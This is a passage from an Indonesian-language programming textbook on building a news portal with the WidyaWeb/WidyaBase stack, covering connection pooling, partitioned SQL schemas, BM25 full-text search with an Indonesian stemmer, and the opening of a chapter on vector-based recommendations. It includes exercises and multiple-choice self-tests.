Dengan mengelola *Connection Pool*, biaya overhead jabat tangan TCP 3 arah (*3-way handshake*) dan negosiasi enkripsi TLS hanya terjadi sekali saat booting server, sehingga query berikutnya dieksekusi dengan latensi sub-milidetik.

---

## 25.2 Implementasi Konfigurasi Driver & Pool di WidyaWeb

Berikut adalah implementasi inisialisasi pool koneksi dan wrapper repositori akses data persisten:

```widya
// Modul Konektivitas Database NusantaraNews
gunakan widya::base::koneksi::{PoolKoneksi, KonfigurasiPool, KoneksiDB};
gunakan widya::base::kueri::{BarisHasil, ParameterSQL};
gunakan widya::waktu::{Durasi};

rekod KonfigurasiNusantaraDB {
    host: Teks,
    port: Bulat,
    nama_db: Teks,
    pengguna: Teks,
    kata_sandi: Teks,
    ukuran_pool_maks: Bulat,
    ukuran_pool_min: Bulat,
    batas_waktu_tunggu_ms: Bulat,
    masa_hidup_koneksi_menit: Bulat
}

fungsi InisialisasiPoolWidyaBase(cfg: KonfigurasiNusantaraDB) -> PoolKoneksi {
    tetapan pool_cfg = KonfigurasiPool::baru()
        .alamat(cfg.host, cfg.port)
        .basis_data(cfg.nama_db)
        .kredensial(cfg.pengguna, cfg.kata_sandi)
        .kapasitas_maksimal(cfg.ukuran_pool_maks) // 50 koneksi aktif
        .kapasitas_minimal(cfg.ukuran_pool_min)   // 10 koneksi siaga
        .timeout_pinjam(Durasi::dari_milidetik(cfg.batas_waktu_tunggu_ms))
        .masa_hidup_maksimal(Durasi::dari_menit(cfg.masa_hidup_koneksi_menit))
        .uji_koneksi_saat_pinjam(salah) // Nonaktifkan untuk performa ekstrem
        .aktifkan_failover_otomatis(benar);

    cetak_log("[Database] Melakukan inisialisasi pool koneksi WidyaBase...");
    tetapan pool = PoolKoneksi::buat(pool_cfg)?;
    cetak_log("[Database] Pool koneksi siap dengan " + cfg.ukuran_pool_min.ke_teks() + " soket siaga.");
    kembalikan pool;
}

// Pola Eksekusi Kueri Aman Berparameter (Mencegah SQL Injection)
fungsi AmbilDetailArtikelOlehID(pool: PoolKoneksi, artikel_id: Teks) -> Hasil<Opsi<BarisHasil>, Galat> {
    tetapan mutabel koneksi = pool.pinjam()?;
    
    // Extended Query Protocol (Otomatis menggunakan Server-Side Prepared Statement)
    tetapan sql = "SELECT id, judul, ringkasan, konten, status, dibuat_pada FROM artikel WHERE id = $1 LIMIT 1";
    tetapan baris = koneksi.kueri_satu(sql, [ParameterSQL::Teks(artikel_id)])?;
    
    kembalikan Hasil::Sukses(baris);
}
```

---

## 25.3 Analisis Metrik Efisiensi: Connection Pooling vs Direct Connect

Membuka koneksi database baru pada setiap permintaan HTTP di portal berita viral adalah penyebab paling umum keruntuhan sistem (*database crash*).

| Parameter Kinerja | Koneksi Baru per Permintaan | WidyaWeb Managed Connection Pool | Peningkatan Kinerja |
| :--- | :--- | :--- | :--- |
| **Latensi per Kueri** | 18 ms – 45 ms (Handshake TCP+Auth) | 0.4 ms – 1.2 ms (Reuse Socket) | $35\times$ Lebih Cepat |
| **Beban CPU Database** | Sangat Tinggi (Forking thread & SSL) | Sangat Rendah & Stabil | Penghematan CPU 85% |
| **Kapasitas Maksimal Lalu Lintas** | Jebol pada 800 req/detik | Stabil pada 45.000 req/detik | Skalabilitas Masif |
| **Konsumsi RAM Database** | Membengkak hingga 16 GB | Terkendali Konstan pada 450 MB | Stabilitas Jangka Panjang |

---

## 25.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pemantauan Metrik Pool (Pool Telemetry)**: Ekspor metrik `pool.koneksi_aktif()`, `pool.koneksi_menganggur()`, dan `pool.antrean_menunggu()` ke endpoint observabilitas Prometheus.
2. **Kustomisasi Strategi Failover Baca (Read-Replica Load Balancing)**: Konfigurasikan dua pool terpisah: pool primer untuk transaksi tulis (*Write Pool*), dan pool replika multi-node untuk melayani kueri baca (*Read Pool*).
3. **Penyusunan Pengujian Beban Konkurensi (Concurrency Stress Test)**: Uji ketahanan pool koneksi dengan meluncurkan 5.000 tugas asinkron paralel yang meminjam dan mengembalikan koneksi dalam kurun waktu 10 detik.

---

## 25.5 Evaluasi Mandiri Pilihan Ganda

1. Protokol kabel biner apa yang digunakan oleh WidyaBase untuk komunikasi berlatensi rendah dengan aplikasi WidyaWeb?
   - A. Protokol Pgwire v3.0 (PostgreSQL Wire Protocol)
   - B. Protokol FTP
   - C. Protokol Telnet polos
   - D. Protokol IRC

2. Apa keuntungan utama penggunaan *Connection Pooling* pada aplikasi web berita dengan lalu lintas tinggi?
   - A. Menghemat latensi jabat tangan TCP dan beban CPU autentikasi database dengan mendaur ulang soket koneksi yang telah terbuka
   - B. Menghapus data artikel secara otomatis setelah dibaca
   - C. Mempercepat koneksi printer
   - D. Menghindari kewajiban membuat indeks pada tabel

3. Metode autentikasi standar industri apa yang didukung secara native oleh protokol pgwire WidyaBase untuk melindungi kata sandi dari penyadapan jaringan?
   - A. Plain Text tanpa enkripsi
   - B. SCRAM-SHA-256
   - C. ROT13
   - D. Enkripsi Caesar

4. Dalam protokol query extended pgwire, langkah manakah yang bertugas mengkompilasi rencana eksekusi SQL di sisi server (*Server-Side Prepared Statement*)?
   - A. Tahap Parse
   - B. Tahap Bind
   - C. Tahap Execute
   - D. Tahap Close

5. Apa risiko utama jika konfigurasi `ukuran_pool_maks` disetel terlalu besar (misalnya 10.000 koneksi pada server biasa)?
   - A. Database akan mengalami pergantian konteks (*context switching*) yang parah, menghabiskan memori RAM, dan menyebabkan server tidak merespons
   - B. Warna tulisan artikel berita akan berubah menjadi biru
   - C. Kompilator Widya-Lang akan berhenti bekerja
   - D. Jurnalis tidak bisa masuk ke akun mereka

6. Mengapa kueri SQL wajib menggunakan parameter terikat (seperti `$1, $2`) dan dilarang menggabungkan string mentah (`"WHERE id = '" + id + "'"`?
   - A. Mencegah serangan fatal injeksi SQL (*SQL Injection Attack*)
   - B. Mempercepat proses cetak koran
   - C. Mengurangi jumlah spasi dalam dokumen
   - D. Menghindari kesalahan pengejaan nama penulis

7. Parameter konfigurasi `timeout_pinjam` pada pool koneksi berfungsi untuk:
   - A. Membatasi durasi maksimal sebuah thread aplikasi menunggu tersedianya soket koneksi yang menganggur sebelum memunculkan galat timeout
   - B. Mengatur lama waktu istirahat jurnalis
   - C. Mematikan listrik data center
   - D. Menghapus cookie pembaca

8. Kapan koneksi di dalam pool ditutup dan digantikan dengan soket baru jika parameter `masa_hidup_maksimal` tercapai?
   - A. Saat koneksi tersebut telah mencapai batas usia hidupnya dan sedang dalam status menganggur di dalam pool (*graceful recreation*)
   - B. Di tengah-tengah transaksi finansial yang sedang berjalan
   - C. Hanya saat server mengalami pemadaman listrik
   - D. Setiap 1 milidetik sekali

9. Apa yang terjadi jika opsi `aktifkan_failover_otomatis` bernilai `benar` dan simpul primer WidyaBase mengalami kegagalan?
   - A. Driver secara transparan mengalihkan soket koneksi berikutnya ke simpul replika yang telah dipromosikan menjadi primer baru tanpa mematikan aplikasi web
   - B. Seluruh artikel berita akan terhapus permanen
   - C. Server mengirim email panik ke semua pembaca
   - D. Komputer memformat sistem operasi secara mandiri

10. Mengapa opsi `uji_koneksi_saat_pinjam` disarankan bernilai `salah` pada lingkungan produksi lalu lintas tinggi jika jaringan internal stabil?
    - A. Menghilangkan overhead kueri ping tambahan (`SELECT 1`) setiap kali koneksi dipinjam, sehingga memangkas latensi hingga ke titik minimum
    - B. Menghemat memori keyboard
    - C. Mempercepat laju putaran kipas prosesor
    - D. Menghindari tagihan pajak software

---

# BAB 26: PEMODELAN DATA RELASIONAL BERITA, INDEKS & PARTISI

Bab ini menyajikan cetak biru desain skema basis data relasional enterprise portal berita NusantaraNews pada WidyaBase: perancangan tabel entitas artikel, jurnalis, taksonomi rubrik, komentar bertingkat (*nested comments*), strategi pengindeksan majemuk B-Tree, serta teknik partisi tabel deklaratif berdasarkan rentang waktu (*Time-Range Table Partitioning*) untuk mengelola miliaran arsip berita.

---

## 26.1 Entity-Relationship Model Portal Berita & Partisi Waktu

Struktur data portal berita modern harus mendukung pembacaan berkala masif, pembaruan status editorial yang ketat, dan retensi data jangka panjang. Desain skema menerapkan normalisasi bentuk ketiga (3NF) untuk entitas editorial inti, sementara tabel berukuran raksasa seperti `artikel` dan `log_bacaan` dipartisi secara horizontal berdasarkan kuartal tahun (*range partitioning by published_at*).

```mermaid
erDiagram
    PENGGUNA ||--o{ ARTIKEL : "menulis"
    KATEGORI ||--o{ ARTIKEL : "mengelompokkan"
    ARTIKEL ||--o{ KOMENTAR : "menerima"
    ARTIKEL }o--o{ TAG : "memiliki relasi"
    KOMENTAR ||--o{ KOMENTAR : "balasan bersarang"

    PENGGUNA {
        uuid id PK
        varchar nama
        varchar email UK
        varchar peran
        timestamp dibuat_pada
    }
    KATEGORI {
        serial id PK
        varchar slug UK
        varchar nama
    }
    ARTIKEL {
        uuid id PK
        varchar slug UK
        text judul
        text konten
        varchar status
        timestamp diterbitkan_pada PK
        uuid penulis_id FK
        integer kategori_id FK
    }
    KOMENTAR {
        bigserial id PK
        uuid artikel_id FK
        uuid parent_id FK
        text konten
        timestamp dibuat_pada
    }
```

Partisi tabel memungkinkan mesin basis data melakukan *Partition Pruning*, yaitu hanya memindai partisi fisik kuartal berjalan saat pembaca mengakses berita terbaru, mengabaikan partisi arsip tahun-tahun sebelumnya.

---

## 26.2 Skema DDL & Implementasi Migrasi di WidyaBase

Berikut adalah naskah DDL lengkap skema relasional terpartisi dan konfigurasi indeks optimal:

```sql
-- DDL Skema NusantaraNews di WidyaBase

-- 1. Tabel Kategori & Taksonomi
CREATE TABLE kategori (
    id SERIAL PRIMARY KEY,
    slug VARCHAR(64) UNIQUE NOT NULL,
    nama VARCHAR(128) NOT NULL,
    deskripsi TEXT,
    urutan_tampil INT DEFAULT 0
);

-- 2. Tabel Artikel Berpartisi Waktu (Range Partitioning)
CREATE TABLE artikel (
    id UUID DEFAULT gen_random_uuid(),
    slug VARCHAR(256) NOT NULL,
    judul VARCHAR(512) NOT NULL,
    ringkasan TEXT NOT NULL,
    konten TEXT NOT NULL,
    kategori_id INT NOT NULL REFERENCES kategori(id),
    penulis_id UUID NOT NULL REFERENCES pengguna(id),
    status VARCHAR(32) NOT NULL DEFAULT 'draft', -- draft, review, published, archived
    tampilan_dilihat BIGINT DEFAULT 0,
    diterbitkan_pada TIMESTAMPTZ NOT NULL,
    diperbarui_pada TIMESTAMPTZ DEFAULT NOW(),
    PRIMARY KEY (id, diterbitkan_pada)
) PARTITION BY RANGE (diterbitkan_pada);

-- Partisi Fisik Kuartal Tahun 2026
CREATE TABLE artikel_2026_q1 PARTITION OF artikel
    FOR VALUES FROM ('2026-01-01 00:00:00+00') TO ('2026-04-01 00:00:00+00');

CREATE TABLE artikel_2026_q2 PARTITION OF artikel
    FOR VALUES FROM ('2026-04-01 00:00:00+00') TO ('2026-07-01 00:00:00+00');

CREATE TABLE artikel_2026_q3 PARTITION OF artikel
    FOR VALUES FROM ('2026-07-01 00:00:00+00') TO ('2026-10-01 00:00:00+00');

CREATE TABLE artikel_2026_q4 PARTITION OF artikel
    FOR VALUES FROM ('2026-10-01 00:00:00+00') TO ('2027-01-01 00:00:00+00');

-- 3. Strategi Indeks Majemuk B-Tree Berperforma Tinggi
CREATE INDEX idx_artikel_kategori_terbit ON artikel (kategori_id, diterbitkan_pada DESC) WHERE status = 'published';
CREATE INDEX idx_artikel_penulis ON artikel (penulis_id, diterbitkan_pada DESC);
CREATE INDEX idx_artikel_slug ON artikel (slug);

-- 4. Tabel Komentar Bertingkat (Hierarchical Nested Comments)
CREATE TABLE komentar (
    id BIGSERIAL PRIMARY KEY,
    artikel_id UUID NOT NULL,
    parent_id BIGINT REFERENCES komentar(id) ON DELETE CASCADE,
    nama_pengirim VARCHAR(128) NOT NULL,
    email_pengirim VARCHAR(256) NOT NULL,
    konten TEXT NOT NULL,
    apakah_disetujui BOOLEAN DEFAULT TRUE,
    dibuat_pada TIMESTAMPTZ DEFAULT NOW()
);

CREATE INDEX idx_komentar_artikel_jalur ON komentar (artikel_id, parent_id, dibuat_pada ASC);
```

---

## 26.3 Analisis Efisiensi Partisi: Partition Pruning vs Full Table Scan

Partisi waktu secara dramatis membatasi volume blok disk yang harus dibaca oleh memori buffer shared buffer.

| Skenario Kueri Berita | Tabel Monolitik Tanpa Partisi | Tabel WidyaBase dengan Partisi Kuartal |
| :--- | :--- | :--- |
| **Volume Rekod yang Dipindai** | 50.000.000 Rekod (Seluruh Sejarah) | 1.250.000 Rekod (Hanya Q2 2026) |
| **Teknik Pemindaian Eksekusi** | Full Index Scan seluruh tabel | *Partition Pruning* langsung ke simpul fisik |
| **I/O Disk Buffer Read** | 4.800 MB dibaca ke RAM | 120 MB dibaca ke RAM |
| **Waktu Kueri Halaman Depan** | 185 ms | 1.4 ms |
| **Proses Pemeliharaan / VACUUM** | Mengunci tabel selama 3 jam | Dilakukan per partisi tanpa gangguan |

---

## 26.4 Latihan Praktik & Studi Kasus

1. **Rancang Kueri CTE Rekursif untuk Pohon Balasan Komentar**: Buat kueri SQL menggunakan `WITH RECURSIVE balasan_tree AS (...)` untuk mengambil seluruh utas percakapan komentar bertingkat dengan kedalaman hingga 5 tingkat dalam 1 kali eksekusi kueri.
2. **Otomatisasi Pembuatan Partisi Masa Depan**: Tulis skrip prosedur tersimpan (*stored procedure*) di WidyaBase yang secara otomatis membuat partisi kuartal baru satu bulan sebelum kuartal berjalan berakhir.
3. **Penyusunan Indeks Parsial (Partial Index)**: Buat indeks khusus `idx_artikel_breaking` yang hanya mengindeks artikel yang memiliki bendera `apakah_breaking_news = true` untuk mempercepat pencarian pita berita utama.

---

## 26.5 Evaluasi Mandiri Pilihan Ganda

1. Mengapa kunci primer pada tabel berpartisi rentang waktu (`PARTITION BY RANGE (diterbitkan_pada)`) wajib menyertakan kolom partisi (`PRIMARY KEY (id, diterbitkan_pada)`)?
   - A. Menjamin integritas batasan keunikan secara lokal pada setiap partisi fisik tanpa memerlukan pemindaian indeks global lintas partisi
   - B. Karena bahasa SQL melarang kunci primer memiliki satu kolom saja
   - C. Agar ukuran file basis data bertambah besar
   - D. Menghindari pembacaan data oleh peramban klien

2. Apa yang dimaksud dengan optimasi *Partition Pruning* pada mesin basis data WidyaBase?
   - A. Kemampuan perencana kueri untuk mengabaikan dan tidak memindai partisi-partisi tabel yang berada di luar rentang kondisi klausa `WHERE` kueri
   - B. Memotong teks artikel yang terlalu panjang
   - C. Menghapus partisi secara permanen saat server dinyalakan
   - D. Mengubah format tanggal menjadi waktu Greenwich

3. Indeks B-Tree majemuk `idx_artikel_kategori_terbit ON artikel (kategori_id, diterbitkan_pada DESC) WHERE status = 'published'` dirancang khusus untuk mempercepat kueri apa?
   - A. Pengambilan feed daftar artikel terbit terbaru per kategori/rubrik secara berurut
   - B. Pencarian nomor telepon jurnalis
   - C. Menghitung total kata dalam kamus bahasa Indonesia
   - D. Proses instalasi server web

4. Mengapa klausul `ON DELETE CASCADE` diterapkan pada relasi kunci asing `parent_id` di tabel komentar?
   - A. Jika komentar induk dihapus oleh moderator, seluruh komentar balasan bersarang di bawahnya akan otomatis ikut terhapus secara bersih
   - B. Menghapus seluruh akun jurnalis di redaksi
   - C. Mematikan database WidyaBase
   - D. Mengubah teks komentar menjadi bahasa Inggris

5. Apa keuntungan menggunakan tipe data `UUID` dibanding `INTEGER SERIAL` untuk kolom `id` artikel berita?
   - A. Nilai pengenal dapat dibangkitkan secara aman di sisi aplikasi tanpa tabrakan id lintas klaster terdistribusi, serta tidak membocorkan volume total artikel kepada pesaing
   - B. UUID hanya membutuhkan 1 byte memori
   - C. UUID tidak bisa disimpan di hard disk
   - D. UUID membatasi panjang judul artikel

6. Dalam pemodelan komentar bertingkat (*nested comments*), teknik relasi ke tabel itu sendiri (*Self-Referencing Foreign Key*) dihubungkan melalui kolom apa?
   - A. `parent_id` yang merujuk kembali ke `id` pada tabel `komentar` yang sama
   - B. Kolom `status`
   - C. Kolom nama jurnalis
   - D. Alamat IP pembaca

7. Mengapa pengindeksan parsial (*Partial Index*) dengan klausa `WHERE status = 'published'` sangat hemat sumber daya?
   - A. Pohon indeks B-Tree tidak perlu menyimpan jutaan baris draf, artikel sampah, atau arsip yang tidak pernah ditampilkan ke publik
   - B. Mengubah format indeks menjadi gambar JPEG
   - C. Menghapus kebutuhan memori RAM pada server
   - D. Menghilangkan fungsi pencarian artikel

8. Kapan partisi kuartal `artikel_2026_q2` menampung data artikel?
   - A. Mulai dari tanggal 1 April 2026 pukul 00:00:00 hingga sebelum tanggal 1 Juli 2026 pukul 00:00:00
   - B. Selama 24 jam penuh di hari Minggu
   - C. Hanya saat libur nasional
   - D. Sepanjang tahun tanpa batasan

9. Apa keuntungan utama partisi tabel saat tim basis data harus menghapus arsip berita usang berusia 10 tahun lalu?
   - A. Partisi dapat langsung dibuang dalam hitungan milidetik menggunakan perintah `DROP TABLE artikel_2016_q1` tanpa membebani transaksi aktif atau menghasilkan jutaan log WAL
   - B. Mengharuskan server diinstal ulang
   - C. Mematikan listrik kantor berita
   - D. Menghapus seluruh tabel kategori

10. Normalisasi bentuk ketiga (3NF) pada skema editorial di atas mencegah fenomena buruk apa?
    - A. Anomali penyisipan, pembaruan, dan penghapusan data akibat redundansi data yang tidak terstruktur
    - B. Komputer terbakar
    - C. Kenaikan harga lisensi basis data
    - D. Menghindari pembacaan berita oleh ponsel cerdas

---

# BAB 27: MESIN PENCARIAN TEKS BM25 & STEMMER INDONESIA

Bab ini membahas pembangunan mesin pencarian teks penuh (*Full-Text Search / FTS*) berkecepatan tinggi pada portal berita NusantaraNews: penerapan algoritma peringkat probabilistik BM25 (*Best Matching 25*), integrasi algoritma *Stemmer Bahasa Indonesia* berbasis aturan morfologi formal (imbuhan awalan, sisipan, akhiran, konfiks), eliminasi *stop-words*, serta akselerasi pengindeksan terbalik (*Inverted Index*).

---

## 27.1 Teori Peringkat Relevansi BM25 & Morfologi Bahasa Indonesia

Pencarian menggunakan operator `LIKE '%kata%'` sangat lambat karena memaksa pemindaian tabel menyeluruh dan tidak memiliki kemampuan memberi peringkat relevansi hasil. WidyaBase mengintegrasikan mesin pencarian berbasis **Inverted Index** dengan algoritma peringkat **BM25**, yang memperhitungkan frekuensi kemunculan kata kunci (*Term Frequency / TF*), kebalikan frekuensi dokumen (*Inverse Document Frequency / IDF*), serta normalisasi panjang dokumen terhadap rata-rata koleksi berita.

```mermaid
flowchart TD
    subgraph Prapemrosesan ["Pipa Morfologi Teks Bahasa Indonesia"]
        Input["Dokumen Berita: 'Pemerintah Mengembangkan Perekonomian Kerakyatan'"]
        Tokenisasi["Pemisahan Kata / Tokenizer"]
        Stopwords["Pembersihan Kata Sambung (dan, di, ke, yang, dari)"]
        Stemmer["Indonesian Stemmer (mengembangkan -> kembang, perekonomian -> ekonomi)"]
        Input --> Tokenisasi --> Stopwords --> Stemmer
    end

    subgraph IndeksMesin ["Inverted Index WidyaBase"]
        Stemmer --> InvertedIndex["Peta Kata Dasar -> Senarai Dokumen & Posisi [DocID, TF]"]
    end

    subgraph KueriPencarian ["Peringkat Relevansi Kueri Klien"]
        UserSearch["Pencarian Pembaca: 'Kembangkan Ekonomi'"] --> QProcess["Stemming Kueri: 'kembang', 'ekonomi'"]
        QProcess --> BM25Engine["Mesin Skor Relevansi BM25"]
        InvertedIndex --> BM25Engine
        BM25Engine --> HasilUrut["Daftar Berita Paling Relevan (Skor Tertinggi)"]
    end
```

Skor BM25 untuk sebuah dokumen $D$ terhadap kueri yang berisi token $q_1, q_2, \dots, q_n$ dihitung dengan rumus:
$$\text{Skor}(D, Q) = \sum_{i=1}^{n} \text{IDF}(q_i) \cdot \frac{f(q_i, D) \cdot (k_1 + 1)}{f(q_i, D) + k_1 \cdot \left(1 - b + b \cdot \frac{|D|}{\text{avgdl}}\right)}$$
di mana parameter $k_1$ mengatur saturasi frekuensi istilah (bawaan $1.2$) dan $b$ mengontrol penalti panjang dokumen (bawaan $0.75$).

---

## 27.2 Implementasi Stemmer & Kueri Pencarian Berita di WidyaWeb

Berikut adalah implementasi modul analisis bahasa Indonesia dan handler API pencarian artikel berita:

```widya
// Modul Analisis Teks & Pencarian NusantaraNews
gunakan widya::teks::{StemmerIndonesia, HapusStopwords, TokenizerTeks};
gunakan widya::base::fts::{KueriFTS, IndeksTerbalik, ModusPencarian};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::base::koneksi::{buka_koneksi};

// 1. Ekstraksi Kata Dasar Berita
fungsi NormalisasiTeksBerita(teks_mentah: Teks) -> Senarai<Teks> {
    tetapan tokens = TokenizerTeks::pisah_kata(teks_mentah.ke_huruf_kecil());
    tetapan kata_bersih = HapusStopwords::saring_bahasa_indonesia(tokens);
    tetapan stemmer = StemmerIndonesia::baru();

    tetapan mutabel hasil_stem = [];
    untuk kata di kata_bersih {
        hasil_stem.tambah(stemmer.ambil_kata_dasar(kata));
    }
    kembalikan hasil_stem;
}

// 2. Handler API Pencarian Full-Text Search
fungsi TanganiPencarianBerita(req: Permintaan) -> Respon {
    tetapan kata_kunci = req.kueri("q").nilai_atau("").pangkas();
    jika kata_kunci.panjang() < 2 {
        kembalikan Respon::status(StatusHTTP::BadRequest)
            .atur_badan_json({"error": "Kata kunci pencarian minimal 2 karakter"})
            .bangun();
    }

    tetapan db = buka_koneksi()?;
    tetapan batas = req.kueri("limit").ke_bulat_atau(10).batasi(1, 50);

    // Kueri FTS BM25 Native WidyaBase dengan Sorotan Teks (Highlighting)
    tetapan sql = "
        SELECT id, slug, judul, ringkasan, diterbitkan_pada,
               bm25_score(vektor_pencarian, kueri_terstem) AS skor_relevansi,
               ts_headline('indonesian', konten, kueri_terstem, 'StartSel=<mark>, StopSel=</mark>, MaxWords=35') AS cuplikan_teks
        FROM artikel,
             to_tsquery('indonesian', $1) AS kueri_terstem
        WHERE vektor_pencarian @@ kueri_terstem
          AND status = 'published'
        ORDER BY skor_relevansi DESC
        LIMIT $2;
    ";

    // Transformasi kata kunci pengguna ke format kueri boolean FTS
    tetapan kata_dasar = NormalisasiTeksBerita(kata_kunci);
    tetapan format_kueri_fts = kata_dasar.gabung(" & ");

    tetapan baris = db.kueri_banyak(sql, [format_kueri_fts, batas])?;

    kembalikan Respon::sukses_json({
        "kueri_asal": kata_kunci,
        "kueri_stem": format_kueri_fts,
        "total_ditemukan": baris.panjang(),
        "hasil": baris
    }.ke_json_teks()).bangun();
}
```

---

## 27.3 Analisis Presisi Pencarian & Kecepatan Indeks

Penerapan *Indonesian Stemmer* meningkatkan kemampuan pencocokan (*Recall*) hingga lebih dari $300\%$ pada pencarian berita bahasa Indonesia.

| Kata Kunci Pembaca | Hasil dengan SQL `LIKE` Tradisional | Hasil dengan WidyaBase BM25 + Stemmer |
| :--- | :--- | :--- |
| **"Pemberantasan Korupsi"** | Hanya mencocokkan teks persis "Pemberantasan" | Mencocokkan: *memberantas*, *terberantas*, *berantas*, *koruptor* |
| **"Perekonomian Rakyat"** | Melewatkan artikel "Ekonomi Rakyat" | Menemukan seluruh dokumen berakar kata *ekonomi* dan *rakyat* |
| **Kecepatan Kueri per 1 Juta Berita** | 4.200 ms (Full Table Scan Lambat) | 3.5 ms (Melalui Indeks GIN Inverted Index) |
| **Peringkat Hasil Teratas** | Acak / Berdasarkan tanggal semata | Berdasarkan skor bobot relevansi BM25 tertinggi |

---

## 27.4 Latihan Praktik & Studi Kasus

1. **Implementasi Autocomplete / Typeahead Berita**: Rancang endpoint pencarian cepat `/api/v1/search/suggest` yang mengembalikan 5 saran judul berita paling relevan secara instan saat pembaca baru mengetikkan 3 huruf pertama.
2. **Kustomisasi Kamus Kata Khusus (Custom Dictionary)**: Tambahkan istilah gaul modern dan akronim berita (seperti *IKN, KPK, Pilpres, BUMN*) agar tidak terpotong secara keliru oleh aturan morfologi stemmer.
3. **Pencarian Frasa Eksak (Exact Phrase Search)**: Modifikasi parser kueri agar jika pembaca mengapit kata kunci dengan tanda kutip (misal: `"kereta cepat jakarta bandung"`), sistem mencari dokumen dengan urutan posisi kata yang persis berdekatan (*phrasal distance*).

---

## 27.5 Evaluasi Mandiri Pilihan Ganda

1. Algoritma pemeringkatan probabilistik apa yang menjadi standar mutakhir pada mesin pencarian WidyaBase untuk menghitung relevansi dokumen terhadap kueri pencarian?
   - A. Algoritma Bubble Sort
   - B. Best Matching 25 (BM25)
   - C. Algoritma Dijkstra
   - D. Enkripsi MD5

2. Mengapa algoritma *Stemmer Bahasa Indonesia* sangat krusial dalam mesin pencarian berita nasional?
   - A. Bahasa Indonesia adalah bahasa aglutinatif yang kaya akan imbuhan (awalan, akhiran, sisipan); stemming mereduksi kata berimbuhan ke kata dasar sehingga meningkatkan daya temu (*recall*) dokumen
   - B. Menghapus huruf vokal dari judul berita
   - C. Mengubah seluruh teks berita menjadi huruf kapital
   - D. Mencegah pencarian berita di akhir pekan

3. Apa kelemahan fatal dari kueri pencarian yang menggunakan perintah SQL `LIKE '%kata%'` pada tabel berjuta baris?
   - A. Memaksa basis data melakukan pemindaian menyeluruh (*Full Table Scan*) yang sangat lambat karena tidak dapat memanfaatkan indeks B-Tree standar
   - B. Menghapus artikel berita yang mengandung kata tersebut
   - C. Merusak berkas sistem operasi peladen
   - D. Membatasi pencarian hanya 1 kata per jam

4. Struktur data indeks apa yang digunakan di balik layar oleh mesin pencarian untuk memetakan setiap kata kunci ke daftar dokumen yang memuatnya?
   - A. Inverted Index (Indeks Terbalik / Indeks GIN)
   - B. Array satu dimensi
   - C. Linked list sederhana
   - D. Stack memori

5. Apa peran dari tahapan pembersihan *Stop-words* dalam prapemrosesan teks berita?
   - A. Menyingkirkan kata-kata penghubung umum yang tidak bermakna spesifik (seperti "dan", "di", "ke", "yang") guna menghemat ruang indeks dan mempercepat kueri
   - B. Menghapus nama jurnalis dari artikel
   - C. Menghentikan pemutaran video
   - D. Menutup sesi koneksi peramban

6. Dalam rumus perhitungan skor BM25, parameter $b$ (bawaan 0.75) bertindak untuk:
   - A. Mengatur derajat penalti normalisasi panjang dokumen agar dokumen yang sangat panjang tidak diuntungkan secara tidak adil semata-mata karena jumlah katanya banyak
   - B. Menghitung jumlah pembaca artikel
   - C. Membatasi ukuran layar monitor pengguna
   - D. Mengubah warna latar belakang peramban

7. Fungsi `ts_headline(...)` pada kueri FTS WidyaBase digunakan untuk:
   - A. Menghasilkan potongan teks ringkas (*snippet*) di sekitar kata kunci yang dicari dengan tag penanda sorotan visual (seperti `<mark>`)
   - B. Menulis judul berita otomatis
   - C. Menghapus artikel dari halaman beranda
   - D. Mengubah bahasa teks menjadi bahasa Latin

8. Operator boolean apa yang digunakan untuk menghubungkan kata-kata kunci dalam kueri FTS agar dokumen harus memuat seluruh kata dasar yang dicari?
   - A. Operator `&` (AND)
   - B. Operator `|` (OR)
   - C. Operator `!` (NOT)
   - D. Operator `%`

9. Berapa kisaran latensi pencarian dokumen pada 1 juta koleksi berita menggunakan indeks terbalik WidyaBase?
   - A. Sekitar 3.5 milidetik
   - B. Lebih dari 1 menit
   - C. 45 detik
   - D. 10 menit

10. Mengapa akronim atau singkatan populer (seperti *KPK, IKN*) sebaiknya didaftarkan ke dalam kamus pengecualian (*custom dictionary*)?
    - A. Mencegah aturan stemmer umum memotong singkatan secara keliru seolah-olah singkatan tersebut adalah kata berimbuhan
    - B. Menghemat memori RAM prosesor hingga 95%
    - C. Memenuhi peraturan perpajakan
    - D. Menjamin artikel tidak dapat disalin oleh pembaca

---

# BAB 28: REKOMENDASI BERITA SEMANTIK AI VEKTOR & INDEKS HNSW

Bab ini mendalami implementasi sistem rekomendasi berita cerdas berbasis kecerdasan buatan (*AI Semantic Recommendation*) pada NusantaraNews: transformasi artikel ke dalam representasi ruang vektor (*dense embeddings*), pengindeksan graf *Hierarchical Navigable Small World* (HNSW), kueri kedekatan kosinus (*Cosine Similarity*), serta personalisasi linimasa pembaca berbasis preferensi topik.

---

## 28.1 Representasi Vektor Teks & Graf HNSW

Pencarian kata kunci tradisional berbasis leksikal (BM25) gagal menangkap kedekatan makna konseptual (misal: artikel tentang *"Krisis Finansial Global"* sangat relevan dengan *"Kebijakan Suku Bunga Bank Sentral"*, meskipun kedua artikel tidak memiliki kata kunci yang persis sama). WidyaBase Vektor mengatasi batasan ini dengan memetakan setiap artikel berita ke dalam vektor berdimensi tinggi (misal: 768 dimensi menggunakan model transformator semantik).

```mermaid
flowchart TD
    subgraph Vektorisasi ["Pipeline Transformasi Vektor"]
        Article["Naskah Berita: 'Inflasi Melonjak, Bank Sentral Naikkan Suku Bunga'"]
        AI_Model["Model AI Embedding (WidyaTransformer-768d)"]
        DenseVec["Vektor Dense: [0.042, -0.194, 0.881, ..., 0.312]"]
        Article --> AI_Model --> DenseVec
    end

    subgraph IndeksGraf ["Struktur Indeks Graf HNSW WidyaBase"]
        DenseVec --> Layer2["Lapisan Atas (Skip-list Jarak Jauh)"]
        Layer2 --> Layer1["Lapisan Menengah"]
        Layer1 --> Layer0["Lapisan Dasar (Koneksi Tetangga Terdekat K-NN)"]
    end

    subgraph Rekomendasi ["Kueri Berita Terkait Semantik"]
        ReaderHistory["Riwayat Bacaan Pembaca Aktif"] --> VektorPengguna["Vektor Preferensi Pembaca"]
        VektorPengguna --> CosineSearch["Kueri <=> HNSW Kosinus (Top-5)"]
        Layer0 --> CosineSearch
        CosineSearch --> Output["Rekomendasi Berita Paling Relevan Maknanya"]
    end
```

Indeks graf **HNSW** (*Hierarchical Navigable Small World*) mengorganisir jutaan titik vektor ke dalam lapisan hierarki multi-skala berkecepatan pencarian logaritmik $O(\log N)$, memungkinkan penemuan 10 tetangga terdekat (*Approximate Nearest Neighbor / ANN*) dalam tempo kurang dari 2 milidetik.

---

